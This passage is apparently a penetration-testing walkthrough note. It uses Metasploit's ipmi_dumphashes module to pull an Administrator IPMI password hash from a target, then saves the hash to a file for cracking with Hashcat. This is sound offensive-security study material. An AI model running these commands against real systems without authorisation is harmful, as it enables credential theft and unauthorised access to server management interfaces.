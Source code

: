 ```bash - kali
msfconsole
```

```bash - kali
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

```bash - kali
set RHOSTS $TARGET 
```

```bash - kali
run
```

The hash for user Administrator is retrieved. Let's save it in a file and use Hashcat to attempt to crack the hash.
```bash - kali
echo -n 3c08a6bf020500008edc65459227db9e4de83261ee2eafe9429a07eb96d30b745fef6f821dd97d81a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:80026d133489237175ee975d5dff53f4c923b396 > hash 
```

![[Hashcat#IPMI2 RAKP HMAC-SHA1]]